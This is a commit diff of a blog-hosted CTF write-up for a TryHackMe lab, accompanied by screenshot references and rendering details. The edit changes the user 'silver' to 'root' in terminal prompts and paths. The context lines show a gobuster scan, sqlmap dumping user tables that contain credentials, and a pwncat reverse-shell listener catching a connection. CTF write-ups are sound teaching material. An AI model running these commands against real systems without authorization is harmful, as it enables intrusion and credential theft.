

Before and after one commit to darksec1337/darksec1337.github.io, a Jekyll site: the page built from _posts/2020-08-10-uopeasy-writeup.md, in a window 1280 px wide and 1400 px high, scrolled down 1884 px. Shown: the part 152-452 px from the top of the window. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Update 2020-08-10-uopeasy-writeup.md

````diff
--- a/_posts/2020-08-10-uopeasy-writeup.md
+++ b/_posts/2020-08-10-uopeasy-writeup.md
@@ -54,7 +54,7 @@
 
 let's dirbust it
 ```terminal
-┌─[✗]─[silver@parrot]─[~]
+┌─[✗]─[root@parrot]─[~]
 └──╼ $gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://10.10.30.179
 ===============================================================
 Gobuster v3.0.1
@@ -87,7 +87,7 @@
 Let's bring sqlmap and dump database
 
 ```terminal
-┌─[silver@parrot]─[~/Desktop/tryhackme/uoeasy]
+┌─[root@parrot]─[~/Desktop/tryhackme/uoeasy]
 └──╼ $sqlmap -u 'http://10.10.123.17/login.php' --dump login --forms
         ___
        __H__
@@ -169,7 +169,7 @@
 | Sir       | PopRocks   |
 +-----------+------------+
 
-[04:35:45] [INFO] table 'login.users' dumped to CSV file '/home/silver/.sqlmap/output/10.10.123.17/dump/login/users.csv'
+[04:35:45] [INFO] table 'login.users' dumped to CSV file '/home/root/.sqlmap/output/10.10.123.17/dump/login/users.csv'
 [04:35:45] [INFO] fetching columns for table 'user_name' in database 'login'
 [04:35:45] [INFO] retrieved: 1
 [04:35:54] [INFO] retrieved: user_name
@@ -187,8 +187,8 @@
 | candyshop |
 +-----------+
 
-[04:43:48] [INFO] table 'login.user_name' dumped to CSV file '/home/silver/.sqlmap/output/10.10.123.17/dump/login/user_name.csv'
-[04:43:48] [INFO] you can find results of scanning in multiple targets mode inside the CSV file '/home/silver/.sqlmap/output/results-08082020_0414am.csv'
+[04:43:48] [INFO] table 'login.user_name' dumped to CSV file '/home/root/.sqlmap/output/10.10.123.17/dump/login/user_name.csv'
+[04:43:48] [INFO] you can find results of scanning in multiple targets mode inside the CSV file '/home/root/.sqlmap/output/results-08082020_0414am.csv'
 
 So there is another database
 
@@ -220,8 +220,8 @@
 | admin    |<redacted>
 +----------+---------------------+
 
-[23:44:10] [INFO] table 'wordpress8080.users' dumped to CSV file '/home/silver/.sqlmap/output/10.10.179.109/dump/wordpress8080/users.csv'
-[23:44:10] [INFO] you can find results of scanning in multiple targets mode inside the CSV file '/home/silver/.sqlmap/output/results-08092020_1137pm.csv'
+[23:44:10] [INFO] table 'wordpress8080.users' dumped to CSV file '/home/root/.sqlmap/output/10.10.179.109/dump/wordpress8080/users.csv'
+[23:44:10] [INFO] you can find results of scanning in multiple targets mode inside the CSV file '/home/root/.sqlmap/output/results-08092020_1137pm.csv'
 
 [*] ending @ 23:44:10 /2020-08-09/
 ```
@@ -237,7 +237,7 @@
 let bring up pwncat.
 
 ```terminal
-┌─[silver@parrot]─[~/Desktop/tryhackme/uoeasy]
+┌─[root@parrot]─[~/Desktop/tryhackme/uoeasy]
 └──╼ $pwncat --listen --port 4444
 [23:56:36] received connection from 10.10.179.109:57043                                                                 connect.py:149
 [23:56:39] new host w/ hash 5dd8ea056be4cd05d790067fea4bfccf                                                             victim.py:328
````
